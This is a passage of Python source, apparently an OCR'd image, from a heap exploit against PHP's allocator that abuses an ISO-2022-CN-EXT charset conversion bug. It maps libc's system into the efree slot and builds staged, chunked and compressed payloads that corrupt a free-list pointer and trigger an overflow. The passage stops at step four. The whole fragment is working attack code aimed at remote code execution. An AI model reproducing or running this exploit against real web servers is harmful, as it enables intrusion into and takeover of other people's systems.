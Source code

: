 ```python
        Therefore, the whole process described here CANNOT crash. Everything falls
        perfectly in place, and nothing can get in the middle of our allocations.
        """

        LIBC = self.info["libc"]
        ADDR_EMALLOC = LIBC.symbols["__libc_malloc"]
        ADDR_EFREE = LIBC.symbols["__libc_system"]
        ADDR_EREALLOC = LIBC.symbols["__libc_realloc"]

        ADDR_HEAP = self.info["heap"]
        ADDR_FREE_SLOT = ADDR_HEAP + 0x20
        ADDR_CUSTOM_HEAP = ADDR_HEAP + 0x0168

        ADDR_FAKE_BIN = ADDR_FREE_SLOT - 0x10

        CS = 0x100

        # Pad needs to stay at size 0x100 at every step
        pad_size = CS - 0x18
        pad = b"\x00" * pad_size
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = compressed_bucket(pad)

        step1_size = 1
        step1 = b"\x00" * step1_size
        step1 = chunked_chunk(step1)
        step1 = chunked_chunk(step1)
        step1 = chunked_chunk(step1, CS)
        step1 = compressed_bucket(step1)

        # Since these chunks contain non-UTF-8 chars, we cannot let it get converted to
        # ISO-2022-CN-EXT. We add a `0\n` that makes the 4th and last dechunk "crash"

        step2_size = 0x48
        step2 = b"\x00" * (step2_size + 8)
        step2 = chunked_chunk(step2, CS)
        step2 = chunked_chunk(step2)
        step2 = compressed_bucket(step2)

        step2_write_ptr = b"0\n".ljust(step2_size, b"\x00") + p64(ADDR_FAKE_BIN)
        step2_write_ptr = chunked_chunk(step2_write_ptr, CS)
        step2_write_ptr = chunked_chunk(step2_write_ptr)
        step2_write_ptr = compressed_bucket(step2_write_ptr)

        step3_size = CS

        step3 = b"\x00" * step3_size
        assert len(step3) == CS
        step3 = chunked_chunk(step3)
        step3 = chunked_chunk(step3)
        step3 = chunked_chunk(step3)
        step3 = compressed_bucket(step3)

        step3_overflow = b"\x00" * (step3_size - len(BUG)) + BUG
        assert len(step3_overflow) == CS
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = compressed_bucket(step3_overflow)

        step4_size = CS
```